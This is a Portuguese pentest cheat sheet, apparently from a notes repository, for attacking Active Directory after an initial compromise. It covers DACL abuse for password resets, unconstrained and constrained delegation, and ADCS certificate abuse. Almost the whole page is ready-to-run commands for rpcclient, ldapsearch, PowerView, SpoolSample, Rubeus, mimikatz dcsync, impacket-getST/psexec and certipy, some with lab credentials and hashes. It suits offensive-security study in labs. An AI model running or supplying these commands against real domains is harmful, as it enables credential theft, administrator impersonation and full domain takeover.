 Explorando Active Directory
========================

Depois de comprometer alguma credencial/máquina de domínio temos a oportunidade de algum tipo de exploração, sendo elas:

- [ ] [**Abuso de DACLs**](#abusando%20dacls)
- [ ] [**Unconstrained delegation**](#unconstrained%20delegation)
- [ ] [**Constrained delegation**](#constrained%20delegation)
- [ ] [**ADCS**](#adcs)
- [ ] [Ferramentas interessantes](#ferramentas)

## Abusando DACLs

Esse tipo de permissionamento pode ser encontrada com a ferramenta do [bloodhound que está documentada aqui.](../../Tools/Bloodhound.md) .

### GenericAll

Com o genericAll podemos alterar a senha do usuário sem sequer saber a senha anterior. Para isso podemos utilizar serviços diferentes. Temos como opção:

#### RPC

```
setuserinfo2 hacker 24 Password@1
```
ou
```
setuserinfo hacker 23 P@ssword!
```

#### SMB

## Unconstrained delegation

A máquina com a configuração de unconstrained delegation armazena os tickets dos usuários que se autenticam nesta. Sendo assim, podemos forçar o Domain Controller a se autenticar com usuário de máquina no intuito de armazenar o TGT deste usuário ( que tem privilégios de dcSync no domínio ) e depois fazer o dump dos hashes de senha dos usuários do domínio.
A premissa é achar uma máquina que possui "unconstrained delegation" ou unrestricted kerberos delegation" configurado, pois nela será salvo os TGTs de usuários que podemos utilizá-los para nos autenticar em outras máquinas:

Enumerando máquinas que possuem essa configuração:


_Linux_

```
ldapsearch -LLL -x -H ldap://dc.support.htb -D "support@support.htb" -W -b "dc=support,dc=htb" "(&(objectCategory=computer)(objectClass=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))"
```




A premissa é achar uma máquina que possui "unconstrained delegation" ou unrestricted kerberos delegation" configurado, pois nela será salvo os TGTs de usuários que podemos utilizá-los para nos autenticar em outras máquinas:

Enumerando
```
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

_Remotamente_

Melhor comando para achar (deve estar configurado na máquina o nome do domínio apontando para o DC corretamente):

```
impacket-findDelegation <nome_dominio>/<usuario>:<senha>
```

Caso contrário, considere o seguinte comando

```
impacket-findDelegation <nome_dominio>/<usuario>:<senha> -dc-ip <ip_dc>
```

Podemos utilizar uma outra abordagem também:

```
ldapsearch -LLL -x -H ldap://dc.support.htb -D "support@support.htb" -W -b "dc=support,dc=htb" "(&(objectCategory=computer)(objectClass=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))"
```

```
ldapsearch -LLL -x -H ldap://pdc01.lab.ropnop.com -D "thoffman@lab.ropnop.com" -W -b "dc=lab,dc=ropnop,dc=com" "(&(objectCategory=computer)(objectClass=computer) userAccountControl:1.2.840.113556.1.4.80 3:=524288))"
```

Com powerview podemos utilizar o seguinte comando:

```
Get-DomainComputer -Unconstrained
```

Depois  de enumerar as máquinas/usuários com essa configuração, devemos solicitar que o domain controller faça o login em algum serviço via kerberos na máquina comprometida, podendo ser de dois modos diferentes:


```
SpoolSample.exe <domain_controller_hostname> <maquina_comprometida>
```

Sendo a <maquina_comprometida> a máquina cuja configuração de unconstrained delegation está definida.


Podemos monitorar os novos TGTs com Rubeus com o seguinte comando:

```
Rubeus.exe monitor /interval:5
```


Se tivermos aguardando um usuário específico:

```
Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

Para enumerar os TGTs presentes na máquina, precisamos executar o mimikatz com os seguintes comandos:

```
mimikatz.exe
debug::privileges
sekurlsa::tickets
```

Depois disso podemos fazer o ataque do dcsync:

```
mimikatz.exe lsadump::dcsync /domain:home.lab /user:user1
```
## Constrained delegation


(userAccountControl:1.2.840.113556.1.4.803:=524288)

- [ ] [Encontrar máquinas/usuários com a configuração de constrained delegation](#enumerar%20maquinas)
- [ ] [Obter o ticket do serviço com impersonate de um usuário privilegiado](#obtem%20ticket)

Com máquinas fora do domínio
### Enumerar maquinas

```
impacket-findDelegation <nome_dominio>/<usuario>:<senha> -dc-ip <ip_dc>
```

```
Get-DomainUser -TrustedToAuth
```

```
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description
```

### Obtem ticket

Obter o ticket TGT da conta de serviço 

```
impacket-getST -spn <nome_spn_completo> -hashes :<hash_senha_servico> <nome_dominio>/<usuario> -dc-ip <ip_dc>
```

Exemplo:
```
impacket-getST -spn www/dc.intelligence.htb -hashes :51e4932f13712047027300f869d07ab6 intelligence.htb/svc_int -dc-ip 10.10.10.248
```

Tem o impersonate também:

```
impacket-getST -spn 'MYSQL/dc01.home.lab' -altservice HTTP -impersonate administrator -hashes :6a9eef1ee940cd8597b5d8198b507ea8 -dc-ip 192.168.175.200 'home.lab/2008R2$'
```

Ou com Rubeus:

r.exe = Rubeus.exe

```
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
```

Depois obter o ticket TGS para subir privilégios:

```
r.exe s4u /self /nowrap /impersonateuser:administrator /ticket:base64ticket...
```

```
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```

```
r.exe s4u /user:svc_int /nowrap /domain:home.lab /msdsspn:MYSQL/dc01.home.lab /altservice:cifs /ptt /impersonateuser:administrator /rc4:<nthash>
```

Fontes:

<https://posts.specterops.io/kerberosity-killed-the-domain-an-offensive-kerberos-overview-eb04b1402c61>

<https://blog.harmj0y.net/activedirectory/s4u2pwnage/>

<https://mayfly277.github.io/posts/GOADv2-pwning-part10/>
<https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html>
## ADCS


```
netexec ldap 10.129.204.177 -u grace -p Inlanefreight01! -M adcs
```
    
```
certipy find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -stdout -vulnerable
```
    
```
certipy req -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -ca sequel-DC-CA -template UserAuthentication -upn 'Administrator@sequel.htb'
```
    
```
certipy auth -pfx administrator.pfx
```
    
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee Administrator@sequel.htb
```

## Ferramentas

<https://github.com/the-useless-one/pywerview>
